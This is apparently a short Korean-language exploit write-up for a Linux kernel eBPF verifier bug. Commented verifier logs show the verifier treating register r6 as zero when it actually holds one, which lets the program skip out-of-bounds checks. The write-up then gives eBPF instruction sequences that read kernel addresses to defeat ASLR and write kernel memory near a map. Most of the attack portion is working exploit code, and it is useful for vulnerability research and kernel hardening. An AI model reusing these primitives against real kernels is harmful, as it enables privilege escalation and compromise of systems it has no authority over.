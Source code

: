 ```jsx
 R0_w=inv0 R6_w=inv0 R7=inv4294967297 R9=map_ptr(id=0,off=0,ks=4,vs=8,imm=0) R10=fp0 fp-8=mmmm????
27: (95) exit
```

실제 r6가 변조되어 oob트리거

```c
31: (27) r6 *= 272 // 현재 r6 = 1
32: (bf) r1 = r9
33: (bf) r2 = r10
34: (07) r2 += -4
35: (62) *(u32 *)(r10 -4) = 0
36: (85) call bpf_map_lookup_elem#1
37: (55) if r0 != 0x0 goto pc+1  // R6=inv0 JIT컴파일 결과 R6는 scalar 0 으로 인식. oob 체크 우회. 실제로는 1
 R0=inv0 R6=inv0 R7=inv0 R9=map_ptr(id=0,off=0,ks=4,vs=8,imm=0) R10=fp0 fp-8=mmmm????
```

계속 나오는 `call bpf_map_lookup_elem`은 메모리 건드는것. 코딩 컨벤션 어셈과 똑같다.

```c
void bpf_map_lookup_elem(map, void *key. ...);
void bpf_map_update_elem(map, void *key, ..., __u64 flags);
void bpf_map_delete_elem(map, void *key);
```

이후 할당된 map주변에서 oob로 적당히 커널 주소 읽고 커널 익스. write도 map에 쓰듯이 똑같이 트리거 할 수 있다. 

```c
BPF_JMP_IMM(BPF_JNE, BPF_REG_7, 0, 23), // op=0 -> read aslr
BPF_ALU64_IMM(BPF_MUL, BPF_REG_6, 0x110),
BPF_MAP_GET_ADDR(0, BPF_REG_7),
BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_6),
BPF_LDX_MEM(BPF_DW, BPF_REG_8, BPF_REG_7, 0),
BPF_MAP_GET_ADDR(4, BPF_REG_6),
BPF_STX_MEM(BPF_DW, BPF_REG_6, BPF_REG_8, 0),
BPF_EXIT_INSN(),

BPF_JMP_IMM(BPF_JNE, BPF_REG_7, 1, 22), // op=1 -> write btf
BPF_ALU64_IMM(BPF_MUL, BPF_REG_6, 0xd0),
BPF_MAP_GET_ADDR(0, BPF_REG_7),
BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_6),
BPF_MAP_GET(2, BPF_REG_8),
BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_8, 0),
BPF_EXIT_INSN(),

BPF_JMP_IMM(BPF_JNE, BPF_REG_7, 2, 23), // op=2 -> read attr
BPF_ALU64_IMM(BPF_MUL, BPF_REG_6, 0x50),
BPF_MAP_GET_ADDR(0, BPF_REG_7),
BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_6),
BPF_LDX_MEM(BPF_DW, BPF_REG_8, BPF_REG_7, 0),
BPF_MAP_GET_ADDR(4, BPF_REG_6),
BPF_STX_MEM(BPF_DW, BPF_REG_6, BPF_REG_8, 0),
BPF_EXIT_INSN(),
```
